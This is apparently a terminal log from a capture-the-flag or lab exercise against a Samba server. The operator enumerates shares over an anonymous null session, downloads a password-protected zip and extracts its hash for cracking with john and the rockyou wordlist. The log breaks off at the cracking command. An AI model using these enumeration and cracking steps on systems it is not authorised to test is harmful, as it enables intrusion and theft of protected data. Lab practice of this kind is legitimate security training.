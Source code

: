 ┌──(kali㉿kali)-[~/Documents/sedition]
└─$ smbmap -H 10.0.250.6 -u '' -p '' -r 'backup'

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
[+] IP: 10.0.250.6:445  Name: 10.0.250.6                Status: NULL Session
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        backup                                                  READ ONLY
        ./backup
        dr--r--r--                0 Sun Jul  6 13:02:52 2025    .
        dr--r--r--                0 Sun Jul  6 14:15:13 2025    ..
        fr--r--r--              216 Sun Jul  6 13:02:31 2025    secretito.zip
        IPC$                                                    NO ACCESS       IPC Service (Samba Server)
        nobody                                                  NO ACCESS       Home Directories
                                                                     
  
                                                                                                                   
┌──(kali㉿kali)-[~/Documents/sedition]
└─$ smbclient //10.0.250.6/backup -N -c "get secretito.zip"
getting file \secretito.zip of size 216 as secretito.zip (21.1 KiloBytes/sec) (average 21.1 KiloBytes/sec)
                                                                                                                   
┌──(kali㉿kali)-[~/Documents/sedition]
└─$ ls
fullscan.txt  scan.txt  secretito.zip
    
                                                                                                                   
┌──(kali㉿kali)-[~/Documents/sedition]
└─$ unzip secretito.zip 
Archive:  secretito.zip
[secretito.zip] password password: 
   skipping: password                incorrect password
                                                                                                                   
┌──(kali㉿kali)-[~/Documents/sedition]
└─$ zip2john secretito.zip > zip_hash.txt
Created directory: /home/kali/.john
ver 1.0 efh 5455 efh 7875 secretito.zip/password PKZIP Encr: 2b chk, TS_chk, cmplen=34, decmplen=22, crc=F2E5967A ts=969D cs=969d type=0
                                                                                                                   
┌──(kali㉿kali)-[~/Documents/sedition]
└─$ cat zip_hash.txt 
secretito.zip/password:$pkzip$1*2*2*0*22*16*f2e5967a*0*42*0*22*969d*ee16b094213a1612e10c6608d4c2a170383b6b429176dfb6baac253a70a84e202ae7*$/pkzip$:password:secretito.zip::secretito.zip
 
                                                                                                                   
┌──(kali㉿kali)-[~/Documents/sedition]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt zip_hash.txt
